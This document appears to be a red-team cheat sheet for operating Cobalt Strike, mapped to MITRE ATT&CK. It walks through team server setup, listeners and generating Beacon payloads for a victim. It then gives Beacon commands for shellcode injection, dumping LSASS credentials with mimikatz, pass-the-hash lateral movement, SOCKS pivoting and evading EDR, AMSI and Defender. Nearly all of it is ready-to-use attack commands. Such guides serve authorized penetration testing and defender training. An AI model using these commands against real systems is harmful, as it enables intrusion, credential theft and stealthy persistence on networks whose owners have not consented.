

<Callout type="info" title="MITRE ATT&CK Mapping">
* [TA0011 - Command and Control](https://attack.mitre.org/tactics/TA0011/)
* [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)
</Callout>



---

## Initial Setup

Cobalt Strike operates using a client-server architecture. The Team Server manages listeners and beacons, while the client is the GUI used by operators.

<Steps>
  <Step title="1. Start the Team Server (Linux)">
    ```bash
    # Syntax: ./teamserver <Your_IP> <Password> [Malleable_C2_Profile]
    sudo ./teamserver 10.10.10.10 MyPassword123 /path/to/profile.profile
    ```
    <Callout type="warning">The Malleable C2 profile is optional but highly recommended for network evasion.</Callout>
  </Step>
  <Step title="2. Start the Client (Linux/Windows/macOS)">
    ```bash
    ./cobaltstrike
    # or ./start.sh
    ```
    Login with the IP, Port (50050 default), and the password you set for the team server.
  </Step>
</Steps>

---

## Listeners & Payloads

<Steps>
  <Step title="1. Creating a Listener">
    Listeners wait for incoming connections from deployed Beacons.
    1. Go to **Cobalt Strike** -> **Listeners**.
    2. Click **Add**.
    3. **Name:** `http_listener`
    4. **Payload:** `Beacon HTTP` (or HTTPS, SMB, TCP).
    5. **Port:** `80` (or 443).
    6. Click **Save**.
  </Step>
  <Step title="2. Generating the Payload (Beacon)">
    Once the listener is active, generate the executable to run on the victim.
    1. Go to **Attacks** -> **Packages** -> **Windows Executable (S)** (Stageless).
    2. **Listener:** Select `http_listener`.
    3. **Output:** `Raw` (or `Windows EXE`).
    4. Click **Generate** and save the file (e.g., `payload.exe`).

    *Alternative (Scriptable):*
    ```text
    beacon> generate -t x64 -f /tmp/payload.exe -b x64
    ```
  </Step>
</Steps>

---

## Beacon Interaction (CLI)

Once a victim executes the payload, a Beacon checks in. Right-click the Beacon and select **Interact** to open the console.

<Tabs>
  <Tab title="Basic Execution">
    ```text
    beacon> help                 # List all commands
    beacon> sleep 10 20          # Sleep 10s, 20% jitter (Slows down detection)
    beacon> shell whoami /priv    # Run a CMD command (creates cmd.exe process)
    beacon> run ipconfig          # Run a command without cmd.exe
    beacon> powershell Get-Service # Run a PowerShell command
    beacon> execute-assembly /opt/Rubeus.exe # Execute a .NET assembly in-memory
    ```
  </Tab>
  <Tab title="File Operations">
    ```text
    beacon> upload /tmp/mimikatz.exe C:\\Users\\Public\\mimikatz.exe
    beacon> download C:\\Users\\victim\\secrets.txt
    beacon> cd C:\\Windows\\Temp
    beacon> ls
    ```
  </Tab>
  <Tab title="Process Management & Injection">
    ```text
    beacon> ps                   # List processes
    beacon> pid 1234             # Set current process to PID 1234
    beacon> shinject 5678 x64 /tmp/shellcode.bin # Inject shellcode into a process
    beacon> spawn x64 powershell.exe # Spawn a new beacon in a powershell process
    ```
  </Tab>
</Tabs>

---

## Post-Exploitation & Lateral Movement

Built-in features for dumping credentials and moving through the network.

<Tabs>
  <Tab title="Credentials">
    ```text
    beacon> mimikatz sekurlsa::logonpasswords # Dump LSASS memory (requires Admin/SYSTEM)
    beacon> hashdump                          # Dump local SAM hashes
    beacon> run MakeToken DOMAIN\\user Password # Create a token for lateral movement
    ```
  </Tab>
  <Tab title="Pivoting & Lateral Movement">
    ```text
    # Pass-the-Hash to spawn a beacon on a remote system
    beacon> jump psexec_psh <Target_IP> <Listener_Name>

    # Run a command on a remote system using WinRM
    beacon> remote-exec winrm <Target_IP> "net user"

    # Create an SMB Beacon (for internal pivoting over named pipes)
    # In Listeners -> Add -> Beacon SMB
    beacon> link <Target_IP> \\pipe\\msagent_11
    ```
  </Tab>
  <Tab title="SOCKS Proxying">
    Pivot through a compromised Beacon to scan internal networks from your Kali machine.
    ```text
    beacon> socks 1080   # Starts a SOCKS4a proxy on the team server (port 1080)
    ```
    *Use in Kali:* Configure `/etc/proxychains4.conf` to use `socks4 127.0.0.1 1080`, then run:
    ```bash
    proxychains nmap -Pn -sT 192.168.1.0/24
    ```
  </Tab>
</Tabs>

---

## OPSEC & Evasion Notes

<Callout type="danger" title="Operational Security (OPSEC)">
* **Avoid shell when possible:** Every `shell` command spawns a `cmd.exe` child process. Use `run` or `execute-assembly` to stay in-memory.
* **AMSI & Defender:** Use `execute-assembly` with tools like `Rubeus` or `Seatbelt` which are often obfuscated. Use `blockdlls start` before injecting to block non-Microsoft DLLs (like EDR sensors).
* **Spawning Process:** By default, Cobalt Strike spawns `rundll32.exe`. Change this via the Malleable C2 profile (`process-inject` block) to blend in with normal user activity (e.g., `notepad.exe` or `svchost.exe`).
* **Sleep Time:** Use realistic sleep times (e.g., `sleep 30 40`) with high jitter. A 0-second sleep will immediately trigger network anomaly detection.
</Callout>
